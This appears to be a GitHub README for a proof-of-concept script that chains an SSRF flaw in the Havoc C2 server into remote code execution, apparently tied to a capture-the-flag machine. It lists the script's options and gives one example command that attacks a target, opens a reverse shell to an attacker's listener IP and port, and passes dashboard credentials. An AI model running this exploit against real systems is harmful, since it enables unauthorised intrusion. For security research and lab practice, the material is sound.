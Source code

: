 # Havoc SSRF RCE PoC

Havoc RCE via SSRF.
Inspired by the HTB machine Backfire and the [havoc SSRF PoC](https://github.com/chebuya/Havoc-C2-SSRF-poc) by chebuya

Help:
```bash
usage: havoc_ssrf.py
[-h] --help   exploit help
-t --target   target host in url format es. https://192.168.1.10/
-i --ip    The IP to open the socket with (internal IP like 127.0.0.1)
-p --port    The port to open the socket with (internal port, usually 40056)
[-A USER_AGENT]    User agent to use for packets  (for havoc dashboard)
[-H --hostname]    Hostname of Windows machine to use  (for havoc dashboard) 
[-u --username]   username of spoofed agent (for havoc dashboard)
[-d --domain-name]   domain of the fake connection (for havoc dashboard)
[-n --process-name]  process name of the beacon  (for havoc dashboard)
[-ip --internal-ip]  internal ip of the havoc server
-a --attacker-ip      ip of the attacker's revshell listener
-ap --attacker-port       attacker port for revshell connection
-hu --HAVOC-USER    havoc user to perform login to the dashboard and launch exploit
-hp --HAVOC-PASSWORD  havoc password to login to the dashboard
```

example usage:
```bash
python3 havoc_ssrf.py --target https://192.168.1.100 -i 127.0.0.1 -p 40056 --attacker-ip 10.10.10.15 -ap 4444 -hu 'havoc_user' -hp 'HavoCpAssworD!'
```
